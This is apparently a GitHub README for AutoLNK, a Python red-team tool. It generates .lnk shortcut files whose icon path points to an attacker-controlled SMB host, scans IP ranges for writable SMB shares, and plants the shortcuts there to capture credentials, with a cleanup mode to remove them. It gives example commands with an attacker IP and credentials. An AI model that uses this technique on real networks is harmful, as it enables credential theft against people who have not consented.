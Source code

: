 # AutoLNK LNK Payload Generator and SMB Share Manager

This Python script is designed to generate `.lnk` (shortcut) files, scan SMB shares for write access, upload the generated `.lnk` files to discovered shares, and clean them up later. It is capable of running on both Windows and non-Windows systems.

## Features

- **Generate LNK (Shortcut) Files**: Creates `.lnk` files on both Windows and non-Windows platforms.
- **Scan SMB Shares**: Scans an IP range for writable SMB shares using the `netexec` tool.
- **Upload LNK Files**: Uploads the generated `.lnk` file to discovered writable SMB shares.
- **Cleanup LNK Files**: Deletes previously uploaded `.lnk` files from the SMB shares.
- **Cross-Platform**: Works on both Windows and Linux systems.

## Requirements

### Windows:
- `pywin32` library (for LNK file creation on Windows)

### Linux:
- `pylnk3` library (for LNK file creation on Linux)
- `smbclient` tool (for SMB share interaction)

## Installation

1. Clone the repository:

   ```bash
   git clone [https://github.com/Tajnost/AutoLNK.git]
   cd AutoLNK.git
   ```

2. Install required Python libraries:

   On Windows:
   ```bash
   pip install pywin32
   ```

   On Linux:
   ```bash
   pip install pylnk3
   ```

3. Ensure that `netexec` and `smbclient` tools are available on your system.

## Usage

The script provides the ability to either generate `.lnk` files, scan SMB shares, upload `.lnk` files, or clean up previously uploaded `.lnk` files. Below is a detailed breakdown of its usage:

### Command-line Arguments

| Argument          | Description                                                                                      | Required |
|-------------------|--------------------------------------------------------------------------------------------------|----------|
| `--target-range`   | The target IP range for SMB scanning (e.g., `192.168.131.0/24`)                                   | Yes      |
| `--username`       | Username for SMB authentication                                                                  | Yes      |
| `--password`       | Password for SMB authentication                                                                  | Yes      |
| `--domain`         | Domain for SMB authentication (use only if domain authentication is required)                    | No       |
| `--local-auth`     | Use this flag for local SMB authentication (disables domain authentication)                      | No       |
| `--host`           | The attacker's IP or hostname to be embedded in the LNK file's icon location                     | Yes      |
| `--output`         | The name of the `.lnk` file to be generated                                                      | Yes      |
| `--execute`        | The command that will be executed when the shortcut is clicked (defaults to `C:\Windows\explorer.exe .`) | No       |
| `--targets-file`   | Path to save the discovered SMB shares (defaults to `/home/kali/targets.txt`)                    | No       |
| `--cleanup`        | Use this flag to remove the uploaded `.lnk` files from the SMB shares                            | No       |

### Example Usage

1. **Generate and Upload LNK Files to SMB Shares**:

   This command generates a `.lnk` file and scans for writable SMB shares within a given IP range. It then uploads the `.lnk` file to the discovered shares.

   ```bash
   python3 lnk_payload_smb.py --target-range 192.168.131.0/24 --username admin --password 'Password123!' --host 192.168.131.10 --output /home/kali/myfile.lnk
   ```

2. **Clean Up Uploaded LNK Files**:

   This command removes the previously uploaded `.lnk` files from the writable SMB shares discovered earlier.

   ```bash
   python3 lnk_payload_smb.py --target-range 192.168.131.0/24 --username admin --password 'Password123!' --cleanup
   ```

## How It Works

1. **LNK File Generation**:
   The script generates a `.lnk` file that points to a specified command (e.g., `cmd.exe`) and assigns a custom icon from a UNC path (`\\attacker_ip\share\file.ico`).

2. **SMB Share Scanning**:
   It uses the `netexec` tool to scan a given IP range for SMB shares with write access.

3. **Uploading LNK Files**:
   The script uploads the `.lnk` file to all writable SMB shares using the `smbclient` tool.

4. **Cleaning Up LNK Files**:
   It removes the uploaded `.lnk` files from the SMB shares using `smbclient`.

## Notes

- Make sure you have appropriate permissions to scan and upload files to the SMB shares.
- The script assumes that the required tools like `netexec` and `smbclient` are installed and available in the system's PATH.
- Wrap passwords in single quotes when using special characters (e.g., `Password123!`) to avoid breaking the command.

![image](https://github.com/user-attachments/assets/41bba42a-8392-4a2d-a476-00ff2193e860)


![image](https://github.com/user-attachments/assets/c1923b63-4d2f-44ba-bd7b-381e0f4370df)



If --cleanup argument is used:

![image](https://github.com/user-attachments/assets/c59d52cc-c812-4548-b7c8-da29d5a499e3)

